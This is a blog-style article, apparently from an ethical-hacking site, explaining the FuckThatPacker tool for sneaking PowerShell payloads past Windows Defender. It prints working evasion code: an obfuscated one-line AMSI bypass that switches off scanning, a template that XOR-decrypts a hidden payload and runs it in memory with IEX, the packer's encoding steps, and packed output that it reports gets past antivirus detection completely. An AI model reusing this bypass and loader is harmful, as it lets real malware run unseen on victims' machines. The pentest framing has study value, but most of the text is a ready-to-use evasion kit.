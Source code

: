> We already have discussed several times the notion of discretion or even anti-virus evasion. It is of course an essential component of the Ethical hacking area. Today, we will see how \[FuckThatPacker\]([https://github.com/Unknow101/FuckThatPacker](https://github.com/Unknow101/FuckThatPacker)" works, a tool recently developed by [@inf0sec](https://twitter.com/inf0sec1) to answer a simple problem which is "How to pass any PowerShell script through Windows Defender".

* * *

## How It Works?

After several types of research, it turns out that even by offending each of the lines of the Cobalt Strike base Resource Kit we are left with detected malware. The problem stems from the base64 shellcode which is analyzed by AMSI (Anti-Malware Scan Interface) which is mostly detected as a malicious script. **FuckThatPacker** therefore, assumes that if the malware is completely encrypted via an XOR and integrated into a "stub" allowing decryption in a memory coupled with a simple AMSI bypass then this will suffice to override antivirus.

Here is the detail of the code. The script will retrieve the contents of the load:

```html
with open(args.payload) as f:
    content = f.read()
```

The code will first be encoded using UTF16-LittleEndian since it is the encoding taken by Windows:

```html
print "[+] Encode UTF16-LE"
content = content.encode("utf-16")
```

Then be encrypted via a simple XOR with the digital key chosen by the user:

```html
print "[+] Cyphering Payload ..."
content = xor_payload(content,key)
```

Everything will finally be encoded in base64 to have only printable characters, before being integrated into the template supplied with the project:

```html
print "[+] Base64 Payload"
content = base64.b64encode(content)

print "[+] Writting into Template"
with open("template.txt") as f:
    template = f.read()

template = template.replace("%%DATA%%",content)
template = template.replace("%%KEY%%",str(key))
```

The idea behind using a template is to make the project malleable by the community. In this way, anyone can modify their template to have an offended load of their own. Besides, this makes it possible to avoid possible future signatures. Now let's take a quick look at the template:

```html
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType(("{5}{2}{0}{1}{3}{6}{4}" -f 'ut',('oma'+'t'+'ion.'),'.A',('Ams'+'iUt'),'ls',('S'+'ystem.'+'Manage'+'men'+'t'),'i')).GetField(("{1}{2}{0}" -f ('Co'+'n'+'text'),('am'+'s'),'i'),[Reflection.BindingFlags]("{4}{2}{3}{0}{1}" -f('b'+'lic,Sta'+'ti'),'c','P','u',('N'+'on'))).GetValue($null),0x41414141)
$a = "%%DATA%%"
$b = [System.Convert]::FromBase64String($a)
for($x = 0; $x -lt $b.Count; $x++)
{
    $b[$x] = $b[$x] -bxor %%KEY%%
}
IEX ([System.Text.Encoding]::Unicode.GetString($b))
```

The first line of code is for the AMSI bypass. This line eliminates this feature and prevents Defender from decoding the encoded parts to try to find signatures. The variable "$a" will be assigned the encrypted part of our load, it will then be decoded in the variable "$b" then passed in a loop allowing us to decrypt the bytes of the load one by one. The `IEX` command (for Invoke-Expression) will simply allow the load to be executed in memory.

The help menu is pretty self-explanatory but here is a demonstration of how to use the tool:

```html
python FuckThatPacker.py -k 32 -p /root/payload.ps1 -o obfuscated.ps1

  ___        _   _____ _         _   ___         _
 | __|  _ __| |_|_   _| |_  __ _| |_| _ \__ _ __| |_____ _ _
 | _| || / _| / / | | | ' \/ _` |  _|  _/ _` / _| / / -_) '_|
 |_| \_,_\__|_\_\ |_| |_||_\__,_|\__|_| \__,_\__|_\_\___|_|


Written with <3 by Unknow101/inf0sec
v1.0[+] Encode UTF16-LE
[+] Cyphering Payload ...
[+] Base64 Payload
[+] Writting into Template
[+] Writting into obfuscated.ps1
```

As indicated on the last line, the encrypted payload is found in the "obfuscated.ps1" file if no output file is provided, the script will display it in stdout.

```html
cat obfuscated.ps1
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType(("{5}{2}{0}{1}{3}{6}{4}" -f 'ut',('oma'+'t'+'ion.'),'.A',('Ams'+'iUt'),'ls',('S'+'ystem.'+'Manage'+'men'+'t'),'i')).GetField(("{1}{2}{0}" -f ('Co'+'n'+'text'),('am'+'s'),'i'),[Reflection.BindingFlags]("{4}{2}{3}{0}{1}" -f('b'+'lic,Sta'+'ti'),'c','P','u',('N'+'on'))).GetValue($null),0x41414141)
$a = "395zIE[...]ICog"
$b = [System.Convert]::FromBase64String($a)
for($x = 0; $x -lt $b.Count; $x++)
{
    $b[$x] = $b[$x] -bxor 32
}
IEX ([System.Text.Encoding]::Unicode.GetString($b))
```

* * *

## The Verdict

Having no personal [Virus Total](https://www.virustotal.com/) on hand, we had to use the original which unfortunately shares the samples with the suppliers. Despite everything, this makes it possible to put a numerical score and to judge the effectiveness of the tool since we obtain a perfect score.

* * *

## Conclusion

This article was far from technical and the tool rather simplistic. On the other hand, it responds in a very simple way to the problem posed. We hesitated to offer you this article because of its lack of technical level but we hope it can help some of you who have problems with antivirus evasion during pentest, lab, challenges, etc ...